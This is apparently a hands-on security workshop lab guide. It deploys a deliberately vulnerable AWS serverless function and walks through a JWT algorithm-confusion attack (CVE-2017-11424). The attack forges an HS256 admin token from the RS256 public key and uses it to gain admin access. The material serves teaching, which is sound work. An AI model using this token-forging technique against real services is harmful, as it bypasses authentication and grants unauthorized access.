 # **Algorithm Confusion**

---
> #### You can read more about this flaw: [CVE-2017-11424](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=873244) and [Auth0 Blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

### **Lab Image : `Serverless`**

---

> **Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](../aws-configure/README.md) under the `Setup` section*

#### Step 1:

* Navigate to the `Serverless-Workshop` directory on the provisioned server

```commandline
cd /root/labs/Serverless-Workshop/XXE
```

* Activate the python virtual environment

```commandline
pipenv shell
```

* Navigate to the `Algo-Confusion` directory

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Install the necessary requirements

```commandline
sls plugin install -n serverless-python-requirements
```

---

#### Step 2:

* Take a look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/Algo-Confusion/serverless.yml)

```commandline
cat serverless.yml
```

---

#### Step 3:

* Deploy the function and wait for the deployment to complete.

```commandline
sls deploy
```


* Once the deployment is complete, an API endpoint(s) is displayed.

> **EXAMPLE**:

```text
Serverless: Stack update finished...
Service Information
service: we45-sls-workshop-algo-confusion
stage: dev
region: us-west-2
stack: we45-sls-workshop-algo-confusion-dev
resources: 18
api keys:
  None
endpoints:
  GET - https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
  GET - https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify
functions:
  init-algo: we45-sls-workshop-algo-confusion-dev-init-algo
  verify-algo: we45-sls-workshop-algo-confusion-dev-verify-algo
```

---

#### Step 4:

* Run a GET request against the `/dev/init` endpoint

```commandline
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

* The response should be similar to the one below.

> **EXAMPLE**:
```json
{"token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImF1dGhlbnRpY2F0ZWQiOmZhbHNlfQ.Nz39CRtIFrCsX76B9Dq0aEOSsWQ9UwDFNqla1Xj1PHiIOSh0WFcJHWEO1NF7YKq6Uv8C__tKQA2fg3qH_m7gLSLkQSf2eGRAubJXMU2XRRlkhMKvI6iksEnjUBvRAbt_UhN5mDcXHjBpX_1q2wadmVbiBz6YkfkffdTMas7ywLFK43tKvL9Iw32fRgoP__K93EaYdvT8Wxm0LdMU_RxmBqjrf4nwTrGynwoWqc2ZRKYa7tZMNCGNIEiNQxK1b4p39MpZqwhIVkFsFMNwd_jECE0nfzcskTQdtZG4KC1WLSnOB7XNjWwAM_NUujCp_sB_iTcEGQlBfo-Oxx5yULXSBA"}
```

---

#### Step 5:

* Navigate to `Serverless-Workshop` and install the necessary requirements

```commandline
cd /root/labs/Serverless-Workshop/
```
```commandline
pip3 install pipenv
```
```commandline
pipenv install pyjwt && pipenv install huepy
```

---

#### Step 6:

* Navigate to the `Algo-Confusion` directory
 
 ```commandline
 cd /root/labs/Serverless-Workshop/Algo-Confusion
 ```

* Generate a token using `public.pem` file

```commandline
python token_gen.py public.pem
```

* The response should be similar to the one below.

> **EXAMPLE**:
```text
[+] Token is:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

---

#### Step 7:

* Using the token generated, run an authorized GET request.

```commandline
http GET https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

* The response should be similar to the one below.

> **EXAMPLE**:

```text
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 40
Content-Type: application/json
x-amzn-RequestId: e66e15fb-b1b2-11e9-8818-53f47d545fa4

{
    "authenticated": true,
    "user": "admin"
}
```

---

#### *Teardown*:

* Navigate to the `Algo-Confusion` directory
 
 ```commandline
 cd /root/labs/Serverless-Workshop/Algo-Confusion
 ```

* Remove the serverless function that was deployed

```commandline
sls remove --force
```

* Deactivate the python-virtualenvironment

```commandline
deactivate
```
```commandline
exit
```

* Step 15: Run `sls remove --force` to remove stack

```commandline
sls remove --force
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```
